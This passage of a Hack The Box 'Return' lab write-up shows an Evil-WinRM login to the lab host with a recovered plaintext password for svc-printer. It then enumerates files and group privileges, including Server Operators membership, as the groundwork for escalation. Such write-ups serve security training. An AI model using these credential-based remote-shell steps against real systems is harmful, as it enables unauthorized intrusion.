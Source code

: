 ```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Return]
└─$ evil-winrm -i 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!'
                                        
Evil-WinRM shell v3.5
                                        
*Evil-WinRM* PS C:\Users\svc-printer\Documents> ls
*Evil-WinRM* PS C:\Users\svc-printer\Documents> cd ..
*Evil-WinRM* PS C:\Users\svc-printer> whoami
return\svc-printer
*Evil-WinRM* PS C:\Users\svc-printer> hostname
printer
*Evil-WinRM* PS C:\Users\svc-printer> tree /f /a
Folder PATH listing
Volume serial number is 3A0C-428E
C:.
+---Desktop
|       user.txt
|
+---Documents
+---Downloads
+---Favorites
+---Links
+---Music
+---Pictures
+---Saved Games
\---Videos
*Evil-WinRM* PS C:\Users\svc-printer>
```
{: .nolineno}

Lets see the privileges now →

```bash
*Evil-WinRM* PS C:\Users\svc-printer\Documents> whoami /all

USER INFORMATION
----------------

User Name          SID
================== =============================================
return\svc-printer S-1-5-21-3750359090-2939318659-876128439-1103

GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Server Operators                   Alias            S-1-5-32-549 Mandatory group, Enabled by default, Enabled group
BUILTIN\Print Operators                    Alias            S-1-5-32-550 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
```